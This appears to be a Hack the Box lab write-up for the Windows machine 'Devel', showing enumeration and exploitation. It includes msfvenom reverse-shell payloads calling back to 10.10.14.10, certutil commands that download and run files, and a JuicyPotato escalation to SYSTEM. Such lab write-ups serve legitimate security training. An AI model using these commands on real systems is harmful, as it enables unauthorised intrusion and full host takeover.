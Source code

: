 ```yaml
---
title: Hack the Box - Devel
date: 2022-08-16 18:42:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Devel](/assets/HackTheBox/Devel/Devel.png)

# Devel Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.5|Devel|Windows|

## Path to Exploitation

On this machine, we will take advantage of a convenient FTP server that accepts anonymous logins and is placed directly in the website's root directory. Then we'll take advantage of our local user's permissions and use the Juicy Potato exploit to elevate our privileges to SYSTEM.

# Enumeration

## Full Port Scan

```bash
nmap 10.10.10.5 -p- -oA Devel/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|21|ftp|
|80|http|

## Service Scan

```bash
nmap 10.10.10.5 -p 21,80 -sC -sV -oA Devel/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|21|ftp|ftpd|
|80|http|IIS httpd 7.5|

# FTP

We see we have anonymous access to the FTP server
![FTP Anon Access](/assets/HackTheBox/Devel/ftp-anon.png "Anonymous FTP Access")

Which appears to be the root directory of an IIS server. We can try to leverage this to gain a shell by uploading a payload to the website.

# Shell on Host

Create the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.aspx
```

Upload the file to the FTP server
![Upload Payload](/assets/HackTheBox/Devel/file-upload.png "Upload Payload")

Setup a listener and navigate to the payload on the web server
![Trigger Payload](/assets/HackTheBox/Devel/trigger-payload.png "Trigger the Payload")

We see we got a shell as the web user

![Intial Foothold](/assets/HackTheBox/Devel/initial-foothold.png "Intial Foothold")

# Local Enumeration

## Username Enumeration
```shell
C:\> whoami /priv
```

![Whoami Privs](/assets/HackTheBox/Devel/whoami-privs.png "Whoami Privileges")

## System Information
```shell
C:\> systeminfo
```
![System Info](/assets/HackTheBox/Devel/system-info.png "System Info")

We can consider using the Juicy Potato exploit

# Privilege Escalation

Generate the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the juicy potato exploit file and the reverse shell payload to the host
```shell
C:\> certutil -urlcache -f http://10.10.14.10/juicypotato.exe juicy.exe
C:\> certutil -urlcache -f http://10.10.14.10/evil.exe evil.exe
```

setup a listener and execute the exploit
```shell
C:\> juicy.exe -l 1337 -p C:\tmp\evil.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```

Checking back on the listener we see we have a shell running as the SYSTEM account

![SYSTEM Shell](/assets/HackTheBox/Devel/system-shell.png "SYSTEM Shell")